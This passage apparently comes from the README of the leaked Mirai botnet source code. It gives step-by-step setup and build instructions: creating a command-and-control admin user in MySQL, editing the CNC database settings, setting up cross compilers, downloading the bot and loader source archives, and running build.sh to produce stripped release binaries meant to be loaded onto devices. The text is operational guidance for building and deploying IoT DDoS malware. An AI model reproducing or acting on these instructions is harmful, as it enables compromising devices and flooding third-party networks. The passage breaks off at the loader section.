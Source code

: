 This will create database for you. To add your user,

    INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file [`./mirai/cnc/main.go`](mirai/cnc/main.go)

Edit these values

    const DatabaseAddr string   = "127.0.0.1"
    const DatabaseUser string   = "root"
    const DatabasePass string   = "password"
    const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed


# Setting Up Cross Compilers

Cross compilers are easy, follow the instructions at this link to set up. You
must restart your system or reload .bashrc file for these changes to take
effect.

https://web.archive.org/web/20190321061050/https://pastebin.com/1rRCc3aD (ref:
[`cross-compile.sh`](scripts/cross-compile.sh))

# Building CNC+Bot

The CNC, bot, and related tools:

1. https://web.archive.org/web/20161001105341/http://santasbigcandycane.cx/mirai.src.zip - *THESE LINKS WILL NOT LAST
  FOREVER, 2 WEEKS MAX - BACK IT UP!*<br>
  ![mirai.src.zip contents](scripts/images/BVc7qJs.png)
2. https://web.archive.org/web/20161002121334/http://santasbigcandycane.cx/loader.src.zip - *THESE LINKS WILL NOT LAST
   FOREVER, 2 WEEKS MAX - BACK IT UP!*

### How to build bot + CNC

In mirai folder, there is [`build.sh`](mirai/build.sh) script.

    ./build.sh debug telnet

Will output debug binaries of bot that will not daemonize and print out info
about if it can connect to CNC, etc, status of floods, etc. Compiles to
`./mirai/debug` folder

    ./build.sh release telnet

Will output production-ready binaries of bot that are extremely stripped, small
(about 60K) that should be loaded onto devices. Compiles all binaries in format:
`mirai.$ARCH` to `./mirai/release` folder


# Building Echo Loader
